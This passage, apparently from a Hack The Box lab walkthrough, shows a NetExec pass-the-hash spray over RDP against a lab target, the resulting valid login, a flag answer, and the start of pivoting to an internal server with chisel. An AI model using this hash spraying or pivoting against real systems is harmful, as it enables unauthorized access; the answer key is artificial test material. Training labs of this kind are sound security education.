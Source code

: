 Students will reuse the previously spawned target and the user list they created. Subsequently, they will utilize `NetExec` on their workstations and the RDP protocol to proceed with spraying the hash and finding the user who can RDP using the hash:

Code: shell

```shell
netexec rdp STMIP -u users.txt -H A35289033D176ABAAF6BEAA0AA681400 | grep '[+]'
```

```shell-session
┌─[✗]─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ netexec rdp 10.129.229.244 -u users.txt -H A35289033D176ABAAF6BEAA0AA681400 | grep '[+]'

RDP                      10.129.229.244  3389   SRV01            [+] inlanefreight.local\{hidden}:A35289033D176ABAAF6BEAA0AA681400 
```

Answer: `Leonvqz`

## Remote Desktop Service (RDP)

### Question 4

#### "Connect to SRV02 with the user from the previous question and read the flag located at C:\Flags\hash.txt"

Students will reuse the previously spawned target and RDP session(s). Subsequently, they will open `PowerShell` and ping `SRV02` to uncover the IP address assigned to that machine:

Code: powershell

```powershell
ping SRV02
```

```powershell-session
PS C:\Users\helen> ping SRV02

Pinging SRV02.inlanefreight.local [172.20.0.52] with 32 bytes of data:
Reply from 172.20.0.52: bytes=32 time=1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128

Ping statistics for 172.20.0.52:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms
```

Subsequently, students will come to know that `SRV02` is part of an internal network, meaning that they will have to establish dynamic port-forwarding using a [chisel](https://github.com/jpillora/chisel). On their workstations, students will proceed to download the respective versions for Linux and Windows from the [releases](https://github.com/jpillora/chisel/releases/tag/v1.9.1):
